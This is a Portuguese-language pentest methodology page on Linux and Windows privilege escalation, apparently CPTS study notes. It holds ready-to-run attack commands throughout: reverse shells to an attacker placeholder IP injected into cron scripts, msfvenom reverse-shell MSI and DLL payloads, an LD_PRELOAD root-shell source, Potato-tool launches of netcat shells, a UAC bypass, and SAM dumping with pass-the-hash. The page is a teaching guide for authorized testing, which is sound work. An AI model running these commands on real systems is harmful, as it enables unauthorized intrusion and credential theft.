

# 🪜 Fase 10 — Privilege Escalation

> [!info] Objetivo da fase
> Sair do usuário inicial (www-data, `apache`, usuário de domínio sem privilégio, `IIS APPPOOL`) para **root / SYSTEM / Administrador local** no host.
> Privesc local **não é o fim** — é coleta: ao virar root/SYSTEM você lê hashes, chaves SSH, tickets, configs e descobre **novos alvos**. O ciclo é: privesc → loot → pivô ([[Fase 09 - Active Directory]]).

---

## 🎯 Quando entrar

| Sinal | Por quê |
|-------|---------|
| Shell estável obtido | Pré-requisito básico — ver [[Fase 07 - Shells e Transferência de Arquivos]] |
| Serviço/webapp rodando como usuário de baixo privilégio | Quase sempre há mais um passo |
| Credencial local capturada (hash de serviço, `.env`, `web.config`) | Pode haver reuso |
| Você é admin local mas não SYSTEM/root | Último passo p/ dump de LSASS/SAM |
| Objetivo do escopo é "outro host / domínio" | Privesc local é o atalho para credenciais |

---

## 📥 Pré-requisitos

| Pré-requisito | Como confirmar |
|---------------|----------------|
| Shell estável (TTY) | `python3 -c 'pty.spawn("/bin/bash")'` no Linux; no Windows, PowerShell/shell reversa |
| Saber **quem** você é e **onde** está | `id`, `hostname`, `uname -a` / `whoami /all`, `systeminfo` |
| Saber o SO e versão | Kernel/patches definem exploits (e risco de kernel panic) |
| Diretório de trabalho gravável | `/tmp`, `/dev/shm` (Linux) · `C:\Windows\Temp`, `%TEMP%` (Windows) |
| Ferramenta de enumeração transferida | `linpeas.sh`/`winPEAS`/`PowerUp.ps1` via HTTP ou SMB |

---

## 🪜 Passo a passo — 🐧 Linux

### 1. Coleta inicial (5 minutos que valem mais que qualquer exploit)

```bash
id; whoami; hostname; uname -a; cat /etc/os-release   # identidade, kernel, distro
sudo -n -l 2>/dev/null                                # sudo sem senha? quais comandos?
cat /etc/passwd | cut -d: -f1,3,7                     # usuários e shells
groups; ls -la /home                                  # grupos e home alheios
env; cat ~/.bash_history                              # variáveis e histórico (senhas!)
```

### 2. Enumeração automatizada (linpeas + pspy)

```bash
# Transferir e rodar
wget http://<IP_ATACANTE>/linpeas.sh -O /tmp/lp.sh && chmod +x /tmp/lp.sh && /tmp/lp.sh -a

# pspy: monitora cron/tarefas de outros usuários sem privilégio
wget http://<IP_ATACANTE>/pspy64 -O /tmp/pspy && chmod +x /tmp/pspy && /tmp/pspy
```

`linpeas` marca em amarelo/vermelho o que importa: SUID, capabilities, cron gravável, credenciais, grupos perigosos. **Não** execute tudo que ele sugere — priorize pelo risco de derrubar serviço.

### 3. `sudo` e GTFOBins

```bash
sudo -l     # lista comandos permitidos com seus prefixos exatos
```

O prefixo importa: `sudo /usr/bin/less /etc/shadow` é diferente de `sudo less *`. Confirme com `sudo -l` a string literal e procure a entrada em GTFOBins.

| Achado em `sudo -l` | Exploração |
|---------------------|-----------|
| `(ALL) NOPASSWD: /usr/bin/find` | `sudo find . -exec /bin/sh \; -quit` |
| `(ALL) NOPASSWD: /usr/bin/vim` | `sudo vim -c ':!/bin/sh'` |
| `(ALL) NOPASSWD: /usr/bin/less` | `sudo less /etc/shadow` → `!/bin/sh` |
| `(ALL) NOPASSWD: /usr/bin/env` | `sudo env /bin/sh` |
| `env_keep+=LD_PRELOAD` | compilar `.so` e `sudo LD_PRELOAD=/tmp/x.so <cmd>` |
| `LD_LIBRARY_PATH` preservado | biblioteca maliciosa no caminho, com o mesmo nome da usada pelo binário |

**LD_PRELOAD** — só funciona se `sudo -l` mostrar `env_keep+=LD_PRELOAD`:

```c
// /tmp/pe.c — construtor roda como root antes do main
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() { unsetenv("LD_PRELOAD"); setgid(0); setuid(0); system("/bin/bash"); }
```

```bash
gcc -fPIC -shared -nostartfiles -o /tmp/pe.so /tmp/pe.c
sudo LD_PRELOAD=/tmp/pe.so /usr/bin/<BINARIO_PERMITIDO>
```

### 4. SUID / SGID

```bash
find / -perm -4000 -type f 2>/dev/null    # SUID: roda com o EUID do dono (root)
find / -perm -2000 -type f 2>/dev/null    # SGID
find / -perm -6000 -type f 2>/dev/null    # ambos
```

Pegue a lista, subtraia os binários padrão da distro e jogue os fora-da-curva no GTFOBins. Clássicos: `nmap` antigo (`--interactive`), `find`, `bash` (`-p`), `cp`, `nano`, `python`, `pkexec`.

> [!note] SUID não é automaticamente root-shell
> Se o binário faz algo específico (backup, leitura de arquivo), o abuso pode ser **ler arquivo**, não shell. Leia o comportamento antes. Binários customizados (`/usr/local/bin/*`) valem engenharia reversa: `strings`, `ltrace`.

### 5. Capabilities

```bash
getcap -r / 2>/dev/null
```

| Capability | Exploração |
|-----------|-----------|
| `cap_setuid+ep` em python/perl | `python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'` |
| `cap_dac_read_search+ep` | Ler `/etc/shadow`, chaves privadas |
| `cap_dac_override+ep` | Escrever em qualquer arquivo |
| `cap_sys_admin+ep` | Montar filesystem, namespace abuse |
| `cap_net_raw+ep` em tcpdump | Sniff de credenciais no segmento |

### 6. Cron e tarefas agendadas

```bash
cat /etc/crontab; ls -la /etc/cron.*; crontab -l
cat /var/spool/cron/crontabs/* 2>/dev/null
```

Três padrões que escalam:

1. **Script gravável por você** rodando como root → adicione `/bin/bash -c 'bash -i >& /dev/tcp/<IP_ATACANTE>/<PORTA> 0>&1'`.
2. **Diretório gravável** onde o cron roda um script → substitua o arquivo.
3. **Wildcard** (`tar czf ... *`) em diretório gravável → crie arquivos com nomes de opções (`--checkpoint=1`, `--checkpoint-action=exec=...`).

```bash
# Bash reverso dentro do script gravável
echo 'bash -i >& /dev/tcp/<IP_ATACANTE>/<PORTA> 0>&1' >> /opt/backup.sh
# Escute com: nc -lvnp <PORTA>
```

### 7. PATH hijacking

Se um script SUID/cron chama um comando **sem caminho absoluto** (`curl`, `tar`, `date`) e o `PATH` tem um diretório gravável antes:

```bash
# 1) achar diretório gravável que esteja (ou possa entrar) no PATH
find / -writable -type d 2>/dev/null
# 2) criar o binário falso com o nome do comando chamado
printf '#!/bin/bash\ncp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash\n' > /tmp/date
chmod +x /tmp/date
export PATH=/tmp:$PATH
# 3) disparar o script
./script_suid
/tmp/rootbash -p     # shell com EUID root
```

### 8. NFS com `no_root_squash`

```bash
cat /etc/exports 2>/dev/null            # no alvo (se legível)
showmount -e <IP_ALVO>                  # do atacante
```

```bash
# Do atacante: montar e plantar SUID como root local
mkdir /mnt/nfs && sudo mount -t nfs <IP_ALVO>:/shared /mnt/nfs -o nolock
sudo cp /bin/bash /mnt/nfs/rootbash && sudo chmod +s /mnt/nfs/rootbash
# No alvo:
/shared/rootbash -p
```

> [!tip] Sem `no_root_squash` isso não funciona
> Com root squash, seu root local vira `nfsnobody` no servidor e o SUID morre. Valide com um `touch` e veja o dono do arquivo criado.

### 9. Grupos perigosos: docker, lxd, disk

```bash
id          # procure: docker, lxd, disk, adm, sudo, shadow
docker ps   # se o socket estiver acessível
```

```bash
# docker: montar o filesystem do host dentro do container
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# lxd/lxc: importar imagem e rodar container privilegiado
lxc image import ./alpine.tar.gz --alias img
lxc init img privesc -c security.privileged=true
lxc config device add privesc hostroot disk source=/ path=/mnt/root recursive=true
lxc start privesc && lxc exec privesc /bin/sh
```

### 10. Credenciais espalhadas

```bash
grep -ri "password" /var/www /home /opt /etc 2>/dev/null | head -50
cat /var/www/html/*.php | grep -iE "pass|user|db_"     # credenciais de app -> reuso
ls -la ~/.ssh; cat ~/.ssh/id_rsa                         # chaves privadas
find / -name "*.conf" -o -name "*.env" -o -name "*.bak" 2>/dev/null
# Bases locais: mysql -u root -p'' -> ler hashes; sqlite3 db.sqlite ".dump"
```

### 11. Kernel e binários desatualizados (último recurso)

```bash
uname -a; searchsploit "Linux Kernel <versão>"; cat /etc/os-release
```

| Vulnerabilidade | Afeta | Risco |
|-----------------|-------|-------|
| PwnKit (CVE-2021-4034) | `pkexec` de polkit em muitas distros | Alto impacto, mas pode travar sessão |
| Baron Samedit (CVE-2021-3156) | `sudo` < 1.9.5p2 | Confiável em versões certas |
| Dirty Pipe (CVE-2022-0847) | Kernel 5.8–5.16 | Sobrescreve arquivos read-only |

> [!danger] Kernel exploit = risco de kernel panic
> Trave o host = incidente. Rode só com autorização, tenha snapshot/backup, prefira exploits de **lógica** (sudo, SUID, cron) a exploits de **kernel**. Sempre documente a versão de kernel e o exploit usado.

---

## 🪜 Passo a passo — 🪟 Windows

### 1. Coleta inicial

```powershell
whoami /all                 # usuário, grupos, PRIVILÉGIOS — a linha mais importante da enum
systeminfo                  # SO, build, patches, domínio
wmic qfe get HotFixID,InstalledOn   # listar hotfixes (para achar patch faltando)
net user; net localgroup; net localgroup Administradores
```

**Leia `whoami /priv` com atenção** — cada privilégio é uma técnica:

| Privilégio | Exploração típica |
|-----------|-------------------|
| `SeImpersonatePrivilege` | Potato family (Juicy/God/Print/Sweet) → SYSTEM em serviço/IIS/MSSQL |
| `SeAssignPrimaryTokenPrivilege` | Mesmo caminho do acima |
| `SeDebugPrivilege` | Dump do LSASS / `mimikatz lsadump::lsa` |
| `SeBackupPrivilege` | Copiar SAM/SYSTEM, `robocopy /b` |
| `SeRestorePrivilege` | Sobrescrever binários de serviço (ex.: `utilman.exe`) |
| `SeTakeOwnershipPrivilege` | `takeown`/`icacls` em arquivos protegidos |
| `SeLoadDriverPrivilege` | Carregar driver malicioso |
| `SeManageVolumePrivilege` | Ler/escrever em disco bruto (EoP conhecido) |

### 2. Enumeração automatizada

```powershell
# PowerUp: procura serviços, caminhos, registros e ACLs exploráveis
powershell -ep bypass
Import-Module .\PowerUp.ps1
Invoke-AllChecks

# winPEAS: enumeração completa (versão .exe não precisa de PS)
.\winPEASx64.exe quiet
```

### 3. Serviços — unquoted path e permissões fracas

```powershell
# Caminhos SEM aspas e com espaço (Windows tenta C:\Program.exe antes de C:\Program Files\...)
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "C:\Windows"
# Permissões de serviço (quem pode reconfigurar)
accesschk.exe /accepteula -uwcqv "Todos" *
# Permissões do binário/diretório do serviço
accesschk.exe /accepteula -uwdv "C:\caminho\do\servico"
icacls "C:\caminho\do\servico"
```

```powershell
# Unquoted path: plantar o binário no caminho "quebrado"
copy evil.exe "C:\Program Files\Servico\Servico.exe"   # se gravável
# Ou reconfigurar o binário do serviço (requer SERVICE_CHANGE_CONFIG)
sc config <SERVICO> binPath= "C:\Windows\Temp\evil.exe"
sc start <SERVICO>        # ou: sc stop + start, ou aguardar reboot
```

### 4. AlwaysInstallElevated

MSI instalado pelo usuário roda como SYSTEM se as **duas** chaves estiverem em 1:

```powershell
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

```bash
# Gerar o MSI malicioso no atacante
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP_ATACANTE> LPORT=<PORTA> -f msi -o evil.msi
```

```powershell
msiexec /quiet /qn /i C:\Windows\Temp\evil.msi
```

### 5. Tarefas agendadas e binários executáveis

```powershell
schtasks /query /fo LIST /v | findstr /i "TaskName Task_To_Run Run_As"
# Procure: script/binário gravável por você, rodando como SYSTEM/Administrador
```

### 6. DLL hijacking

Se um serviço/EXE carrega uma DLL **ausente** de um diretório **gravável** por você, o Windows a procura naquele diretório:

```powershell
# Descobrir DLLs faltando em um processo
# Procmon (Sysinternals): filtro Result = NAME NOT FOUND, Path termina em .dll
```

```bash
# Gerar a DLL no atacante (exporta o mesmo nome da função esperada)
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP_ATACANTE> LPORT=<PORTA> -f dll -o hijack.dll
```

### 7. Token impersonation — Potato family

Pré-requisito: `SeImpersonatePrivilege` ou `SeAssignPrimaryTokenPrivilege` (comum em IIS, MSSQL, serviços).

| Ferramenta | Alvo |
|-----------|------|
| `GodPotato` | Windows moderno (2019/2022/10/11), .NET 4+ |
| `JuicyPotato` | Windows Server 2016/2019 (com CLSID válido) |
| `PrintSpoofer` | Windows 10/Server 2019 com spooler ativo |
| `SweetPotato` | Combina vários (EfsRpc/PrintSpoofer/DCOM) |

```powershell
.\GodPotato.exe -cmd "cmd /c whoami"                # testa: deve retornar nt authority\system
.\GodPotato.exe -cmd "C:\Windows\Temp\nc.exe <IP_ATACANTE> <PORTA> -e cmd.exe"
```

### 8. Credenciais salvas e arquivos de configuração

```powershell
cmdkey /list                                   # credenciais armazenadas
runas /savecred /user:<DOMINIO>\<USUARIO> cmd  # usa a credencial salva
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"   # DefaultPassword (autologon)
reg query HKLM /f password /t REG_SZ /s        # busca ampla no registro
dir /s /b *pass* *cred* *.config *.xml 2>nul   # arquivos com indício
type C:\Windows\Panther\Unattend.xml           # resposta de instalação (às vezes em base64)
```

### 9. Dumps de SAM/LSASS e reuso

```powershell
# Com privilégio de admin local:
reg save HKLM\SAM C:\Windows\Temp\sam.hive
reg save HKLM\SYSTEM C:\Windows\Temp\system.hive
```

```bash
# Offline no atacante:
secretsdump.py -sam sam.hive -system system.hive LOCAL
# Pass-the-hash local:
wmiexec.py -hashes :<NTHASH> Administrator@<IP_ALVO>
```

### 10. UAC bypass (admin local mas sessão filtrada)

Se você é admin local mas roda com token filtrado (Medium integrity), contorne o UAC:

```powershell
# fodhelper (auto-eleva sem prompt em configurações padrão)
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ /d "" /f
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /d "C:\Windows\Temp\evil.exe" /f
fodhelper.exe
# Limpe depois: reg delete HKCU\Software\Classes\ms-settings /f
```

Conferir integridade: `whoami /groups | findstr Label` (Medium → High = bypass feito).

---

## 🧰 Ferramentas

| Ferramenta | SO | O que faz |
|-----------|----|-----------|
| `linpeas.sh` | Linux | Enumeração exaustiva com priorização por cor |
| `pspy` | Linux | Monitora processos/cron sem root |
| `linux-smart-enumeration` (lse.sh) | Linux | Alternativa mais legível ao linpeas |
| `winPEASx64.exe` | Windows | Enumeração exaustiva (serviços, creds, tokens) |
| `PowerUp.ps1` | Windows | `Invoke-AllChecks`: serviços, ACLs, registros |
| `SharpUp.exe` | Windows | Versão compilada do PowerUp (C#) |
| `accesschk.exe` | Windows | Permissões de serviços, arquivos, chaves |
| `Seatbelt.exe` | Windows | Coleta de contexto e credenciais |
| `GodPotato` / `PrintSpoofer` | Windows | Impersonation de token → SYSTEM |
| `mimikatz` | Windows | `sekurlsa`, `lsadump`, tickets |
| `GTFOBins` (site) | Linux | Mapa binário → técnica de escape |
| `wesng` | Windows→Linux | Correlaciona `systeminfo` com exploits conhecidos |

---

## 🔀 Árvore de decisão



**Tabela achado → exploração (resumo de decisão)**

| Achado | SO | Exploração |
|--------|----|-----------|
| `sudo -l` com NOPASSWD | Linux | GTFOBins no binário permitido |
| SUID atípico | Linux | GTFOBins / análise do binário |
| Capability em interpretador | Linux | `setuid(0)` dentro do interpretador |
| Cron com script gravável | Linux | Escrever comando/ bash reverso |
| Grupo `docker`/`lxd` | Linux | Container montando `/` do host |
| NFS `no_root_squash` | Linux | SUID plantado do atacante |
| `SeImpersonatePrivilege` | Windows | Potato family → SYSTEM |
| Serviço com unquoted path | Windows | Plantar EXE no caminho quebrado |
| Serviço com `SERVICE_CHANGE_CONFIG` | Windows | `sc config binPath=` |
| AlwaysInstallElevated = 1 | Windows | `msiexec` com MSI malicioso |
| Tarefa agendada gravável | Windows | Substituir o binário da tarefa |
| Credencial salva (`cmdkey`) | Windows | `runas /savecred` |
| Patch faltando | Ambos | Exploit público — validar risco primeiro |

---

## 📤 Evidências

| Evidência | Exemplo |
|-----------|---------|
| Estado antes/depois | `id` como www-data → `whoami /priv` como SYSTEM |
| Vetor identificado | saída de `sudo -l`, `getcap`, `accesschk` |
| Comando de exploração | o comando exato (sem o payload destrutivo) |
| Prova de privilégio | `whoami` = root/SYSTEM; leitura de `/etc/shadow` ou SAM |
| Loot derivado | hashes/arquivos novos que abrem o próximo passo |
| Timestamp + host | Para correlacionar com logs do cliente |

> [!info] Documente o caminho, não só o resultado
> "Virei root" não vale nada no relatório. "O serviço X rodava como SYSTEM, tinha `SERVICE_CHANGE_CONFIG` para `Todos`, reconfigurado com `sc config`" — isso vale.

---

## 🕳️ Pegadinhas

| Pegadinha | Realidade |
|-----------|-----------|
| Rodar kernel exploit de primeira | Kernel panic = host fora = incidente. Tente tudo de lógica antes |
| `SUID` = shell root imediato | Muitos SUID só fazem uma operação; leia o binário |
| Confundir admin local com SYSTEM | Token filtrado exige UAC bypass ou serviço |
| `whoami /priv` mostra privilégio desabilitado | Só é útil se estiver habilitado na sessão |
| Reconfigurar serviço sem parar/start | Binário troca no próximo start; `sc stop` pode falhar por dependência |
| Sobrescrever arquivo em uso | Windows bloqueia; use `move`/`copy` para backup e restart |
| `msiexec` sem as duas chaves de registro | AlwaysInstallElevated exige **HKCU e HKLM** em 1 |
| Esquecer limpeza | SUID plantado, contas criadas, `ms-settings` no registro ficam para trás |
| Exploit público sem ler o código | Pode ser um backdoor disfarçado de PoC |
| Privesc sem coletar loot | Subiu para root e saiu sem credencial = retrabalho depois |

---

## ✅ Checklist

- [ ] `id`/`whoami /all`, SO, kernel/build e patches registrados
- [ ] Enumeração automatizada rodada (`linpeas`, `winPEAS`, `PowerUp`)
- [ ] `sudo -l` conferido no GTFOBins (Linux)
- [ ] SUID/SGID e capabilities revisados (Linux)
- [ ] Cron/tarefas monitoradas com `pspy` (Linux)
- [ ] PATH, NFS, grupos `docker`/`lxd` avaliados (Linux)
- [ ] `whoami /priv` interpretado privilégio por privilégio (Windows)
- [ ] Serviços: unquoted paths, ACLs, `binPath` (Windows)
- [ ] AlwaysInstallElevated, tarefas agendadas e DLL hijack checados (Windows)
- [ ] Credenciais salvas, arquivos de config e registro varridos
- [ ] Kernel/exploit público considerado **por último** e com aval do cliente
- [ ] Privilégio elevado **provado** com evidência
- [ ] Loot coletado (hashes, chaves, tickets, configs, DBs)
- [ ] Artefatos deixados no host inventariados para limpeza

---

## 🔗 Relacionado

- [[CPTS 25 - Linux Privilege Escalation]]
- [[CPTS 26 - Windows Privilege Escalation]]
- [[Fase 09 - Active Directory]]
- [[Fase 07 - Shells e Transferência de Arquivos]]
- [[Fase 11 - Pós-Exploração]]
